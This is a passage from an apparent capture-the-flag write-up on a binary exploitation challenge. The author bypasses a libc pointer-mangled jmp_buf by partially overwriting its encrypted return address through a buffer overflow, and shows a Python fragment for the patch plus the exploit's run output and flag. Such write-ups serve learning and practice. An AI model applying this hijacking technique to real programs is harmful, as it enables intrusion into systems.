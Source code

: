 ... What ?

The cookie leak does not gives us stack leaks ? ... 😳

Alright so my big error here was to **assume** that the `longjmp` part will behave the same way **locally and remotly**, since it was new to me, I did not assumed that there could be any difference, which is stupid, stuff changes with **libc versions** and my libc is probably not the one used in challenges. The challenge's `jmp_buf` does not have stack leaks, it **seems** to only have rbp, rsp and rip encrypted, and something else I still don't really know what it is.

After a good night of sleep, I came back with new ideas, we don't have any stack leak so we can not fully leak the xor key, but we still know what the **3 lowest bytes** of rip is, and we just need to **overwrite those 3 bytes** since the code where the flag is printed is **in the binary**.

So yeah, we can't bypass PIE, but we can xor the 3 lowest bytes of our win address (0x595) and replace the result with the 3 lowest bytes `rip_enc` in the `jmp_buf` struct, so when `_setjmp` will be called, it will go to our win address instead of continuing normal execution flow. And since we have a buffer overflow on `password`, and that `jmp_buf` is located under `password` in the stack, we can overwrite it ! So we do so, replacing only the last 3 bytes of `rip_enc`.

```

win_phase1_lsb = 0x595 ^ xor_lsb

# replacing last 3 bytes
rip_phase1 = ror(leaks["rip"], 17, 64)
rip_to_str = hex(rip_phase1)[:-3]
rip_phase1_patched = int(rip_to_str + hex(win_phase1_lsb)[2:], 16)
```

The last thing I had to do is to xor my entire payload with 0x77 since my payload will go through the `decrypt` function that xor it with 0x77, once it's done, I just had to start the script and pray

And....

```
$ python3 exploit.py
leak1  - 0x0000000000000000
rbp    - 0x86702625b2e54d13
null1  - 0x0000564d5ae60110
leak2  - 0x0000000000000000
null2  - 0x0000000000000000
leak3  - 0x0000000000000000
rsp    - 0x86702625b0a54d13
rip    - 0xd51563324a3b4d13
Brute forcing 3 LSB xor key

Found match for xor key = 0x602
win_enc value : 0xa689ea8ab1992397
Sending payload...
---------------------------
[*] Switching to interactive mode
Wrong password!
FCSC{17dc6f007f4149469fe3d361d5b1c7f9694f3ec363b26e051974540aa6eaf666}
```

